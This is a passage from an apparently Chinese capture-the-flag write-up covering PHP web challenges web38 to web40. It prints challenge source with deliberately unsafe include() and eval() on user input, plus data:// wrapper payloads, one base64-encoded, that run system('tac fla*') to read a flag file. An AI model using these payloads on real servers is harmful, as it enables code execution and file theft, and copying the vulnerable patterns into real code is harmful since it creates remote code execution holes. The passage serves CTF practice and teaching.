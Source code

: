 > ?c=data://text/plain,<?=system("tac%20fla*")?>
>
> 或者
>
> ?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=

#### web39

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:13:21
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

这里会在我们传入的c后面拼接一段.php

我们只需要在加入<?php ?>那么php就只会执行中间的代码，后面的内容不会执行

故payload：

> ?c=data://text/plain,<?php system("tac fla*.php")?>

#### web40

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
```